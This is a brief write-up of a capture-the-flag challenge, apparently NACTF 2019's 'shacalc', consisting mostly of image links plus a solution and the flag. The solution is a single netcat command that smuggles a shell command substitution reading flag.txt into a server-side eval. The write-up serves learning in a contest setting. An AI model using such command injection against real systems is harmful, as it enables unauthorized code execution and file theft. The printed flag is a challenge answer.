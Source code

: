 ![alt text](/images/newarkctf/shacalc200hint.png)

### Solution
>**Code Injection**

![alt text](/images/newarkctf/shacalc200injected1.png)

```bash
echo '$(cat flag.txt | tr " " ".") 2>&1'  |  nc shell.2019.nactf.com 31214a
```

### Flag

```bash
nactf{3v4l_1s_3v1l_dCf80yOo}
```
![alt text](/images/newarkctf/shacalcflag.png)

